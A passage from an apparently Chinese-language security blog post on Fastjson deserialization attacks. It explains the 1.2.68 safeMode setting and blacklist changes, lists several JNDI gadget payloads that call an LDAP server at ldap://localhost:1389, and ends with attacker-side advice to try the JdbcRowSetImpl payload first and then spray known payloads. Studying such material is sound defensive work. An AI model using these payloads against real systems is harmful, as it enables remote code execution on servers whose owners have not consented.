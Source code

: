 ![image-20210805154206390](/media/image-20210805154206390.png)

然后这个版本区间内的payload主要又是一些黑名单绕过以及补丁中的黑名单新增。

### Version 1.2.68

1.2.68版本引入了safemode（默认关闭），打开safemode后，@type就不起作用了。所以也就没法绕了。开启safeMode的方法如下：

```java
ParserConfig.getGlobalInstance().setSafeMode(true);
```

到了这个版本，基本上已知的 `JNDI gadget` 都已经进了黑名单，还不允许反序列化类实现了 ClassLoader、DataSource、RowSet 接口，这就导致了绝大部分的 `JNDI gadget` 无法利用。

不过还是有一些偏门的Gadget可以JNDI，需要开启autoType（感觉除了hadoop外，都有点偏门）：

```json
{"@type":"org.apache.hadoop.shaded.com.zaxxer.hikari.HikariConfig","metricRegistry":"ldap://localhost:1389/Exploit"}

{"@type":"org.apache.hadoop.shaded.com.zaxxer.hikari.HikariConfig","healthCheckRegistry":"ldap://localhost:1389/Exploit"}

{"@type":"org.apache.aries.transaction.jms.RecoverablePooledConnectionFactory", "tmJndiName": "ldap://localhost:1389/Exploit", "tmFromJndi": true, "transactionManager": {"$ref":"$.transactionManager"}}

{"@type":"org.apache.aries.transaction.jms.internal.XaPooledConnectionFactory", "tmJndiName": "ldap://localhost:1389/Exploit", "tmFromJndi": true, "transactionManager": {"$ref":"$.transactionManager"}}
```

然后这篇文章提出一种写文件的Gadget（无具体Payload）：

[https://cloud.tencent.com/developer/article/1642365](https://cloud.tencent.com/developer/article/1642365)

可以抛砖引玉学习下。

## 总结

站在攻击者角度，碰到Fastjson可以按照如下思路进行攻击：

优先使用如下Payload进行攻击，因为这个Payload在1.2.48之前，无需开启autoType即可攻击（准确点应该是不能开启autoType）：

```json
{"test1":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"test2":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://localhost:1389/Object","autoCommit":true}}
```

对于如果上述Payload攻击不成功，则基本上判断靶机为1.2.48版本以上的了，那么就把已知的常用的Payload都打一遍叭（ `JdbcRowSetImpl` 和 `TemplatesImpl` 就不用试了...早就黑名单里了 ）~

站在防御者角度，项目内存在Fastjson，如何防御？

最好还是换了叭......不要用Fastjson了......
